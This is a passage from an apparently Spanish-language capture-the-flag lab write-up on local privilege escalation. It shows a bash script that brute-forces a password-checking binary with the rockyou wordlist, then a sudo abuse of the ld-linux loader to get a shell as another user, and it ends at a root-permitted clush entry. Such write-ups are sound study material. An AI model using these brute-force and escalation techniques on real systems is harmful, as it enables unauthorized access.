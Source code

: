```bash


lineas=$(wc -l $wordlist | awk '{print $1}')
intentos=0

trap salir SIGINT

while IFS= read -r pass; do
  intentos=$(($intentos + 1))
  resultado=$(echo "$pass" | sudo -u nova /opt/password_nova)
  if [ $(echo $resultado | grep "Contraseña incorrecta." -c) == 0 ]; then
    echo -e "Contraseña encontrada: $pass\nResultado: $resultado"
    exit 0
  fi
  echo -ne "$intentos/$lineas\r"
done < "$wordlist"
```

una vez creado, le damos permisos con `chmod +x force.sh` y le pasamos el rockyou. Luego de esperar un rato, nos encontrará la contraseña del script y nos dará también la contraseña de nova, por lo que escalaremos ejecutando `su nova` y poniendo su contraseña.

##### Nova

Nuevamente `sudo -l` y veremos lo siguiente:

```css
┌─[nova@d28771631d95]─[/tmp]
└──╼ $sudo -l
Matching Defaults entries for nova on d28771631d95:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User nova may run the following commands on d28771631d95:
    (maci : maci) NOPASSWD: /lib64/ld-linux-x86-64.so.2
┌─[nova@d28771631d95]─[/tmp]
└──╼ $
```

Por lo que para escalar solo debemos ejecutar `sudo -u maci /lib64/ld-linux-x86-64.so.2 /bin/bash` (se encuentra en gtfobins como `ld.so`).

#### Maci

Ahora `sudo -l` nos dice que podemos ejecutar `clush` como root:

```css
┌─[maci@d28771631d95]─[/tmp]
└──╼ $sudo -l
Matching Defaults entries for maci on d28771631d95:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User maci may run the following commands on d28771631d95:
    (ALL : ALL) NOPASSWD: /usr/bin/clush
┌─[maci@d28771631d95]─[/tmp]
└──╼ $
```
